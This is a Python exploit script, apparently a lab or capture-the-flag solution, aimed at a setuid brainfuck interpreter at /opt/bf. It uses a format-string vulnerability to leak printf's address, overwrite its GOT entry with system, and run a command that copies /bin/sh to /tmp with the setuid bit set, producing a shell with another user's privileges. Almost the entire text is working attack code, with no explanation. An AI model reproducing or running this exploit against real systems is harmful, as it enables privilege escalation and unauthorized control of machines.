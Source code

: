 ```python
# Evil command *manicial laugh*
command = "cp /bin/sh /tmp/sh;chmod ug+s /tmp/sh;touch /tmp/gotit.txt;#"
print_string = addresses + "%16$sENDMARK"
# same length as the attack string but just does nothing
pattern_string = addresses + "%{:03d}c%016$.8x%{:03d}c%017$.8x%{:03d}c%018$.8x%{:03d}c%019$.8x012345678912".format(0, 0, 0, 0)

# Calculating the brainfuck string with the used pattern
arg = bf_print_rewind(print_string) + bf_print_rewind(pattern_string) + bf_print(command)

# This is not a test of the Emergency Broadcast System ! This is the real thing !!
print "[*] Launching the process for attack..."

child_pid, child_fd = pty.fork()

if not child_pid: # child process
  os.execv("/opt/bf", ["bf", arg])

attr = termios.tcgetattr(child_fd)
attr[3] = attr[3] & ~termios.ECHO
termios.tcsetattr(child_fd, termios.TCSANOW, attr)
tty.setcbreak(child_fd)

os.write(child_fd, print_string)
s = ""
while True:
  c = os.read(child_fd, 1)
  if c ==  "":
    sys.exit()
  s += c
  if s.endswith("ENDMARK"):
    real_printf = struct.unpack("I", s[16:20])[0]
    print "[*] printf is at", hex(real_printf)
    break

if real_printf:
    system_addr = int(real_printf + offset)
    print "[*] system must be at", hex(system_addr)

values = split_addr(system_addr)
attack_fmt = "%{:03d}c%016$hhn%{:03d}c%017$hhn%{:03d}c%018$hhn%{:03d}c%019$hhn012345678912".format(values[0], values[1], values[2], values[3])
attack_fmt = addresses + attack_fmt

print "[*] Overwriting printf address with system address in GOT"
os.write(child_fd, attack_fmt)

s = ""
while True:
  c = os.read(child_fd, 1)
  if c ==  "":
    sys.exit()
  s += c
  if s.endswith("12345678912"):
    break

print "[*] Putting our command"
os.write(child_fd, command)

time.sleep(0.5)

if os.path.isfile("/tmp/gotit.txt"):
    print "[*] Enjoy your shell with euid polito :)"
```